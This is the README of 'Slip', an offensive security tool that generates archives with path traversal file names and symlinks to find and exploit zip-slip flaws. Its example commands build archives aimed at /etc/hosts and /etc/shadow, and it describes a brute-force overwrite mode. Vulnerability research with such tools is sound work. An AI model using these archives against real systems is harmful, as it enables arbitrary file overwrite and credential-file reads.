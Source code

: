 # Slip

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vulnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives (and every compression algorithm supported by each format)
- Allows to hunt for both **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports multiple payloads of different types (paths/symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different "depths" 
- Supports the usage of custom "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to create the archive

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path;name
  --file-content TEXT             Content of the files in the archive,
                                  mandatory if paths are used.
  --force-name                    If set, the filename will be forced exactly
                                  as provided.
  --search INTEGER                If set, paths and symlink will generate
                                  multiple traversal paths to try and find the
                                  target file or path at different depths.
                                  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --mass-find-placeholder TEXT    Mass-find placeholder for filename in
                                  dictionary  [default: {FILE}]
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.
```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive
```

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts;linkname" archive  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/;foo`, path: `foo/hosts`).

Create a tar archive with multiple payloads (from the default mass-find dictionary) to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive
```
⚠️ WARNING: mass-find mode supports paths, this translates to a bruteforce attempt to rewrite a specific file, but it potentially uses A LOT of payloads, so the result is unpredictable. Use with caution.

## Notes
- Depending on the library that handles the decompression, results may vary greatly.

  Different compression algorithms can trigger different behaviours during the extraction, but also the usage of certain path traversal payloads in names or the co-presence of path traversal payloads in names and symlink can lead to weird behaviours during the extraction. Many combinations of compression algorithms, archive types and payloads are relatively untested and should be evaluated on a case by case basis to obtain the best results.

- Archive types: jar|war|apk|ipa are supported as simple zip archives.  
The archive format is correct, but valid archives should contain compatible contents.
Valid contents can be set manually and are not yet supported by slip.
Please note that many software that handles these formats, treat them as zip files.
This means that using the correct extension will suffice.

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
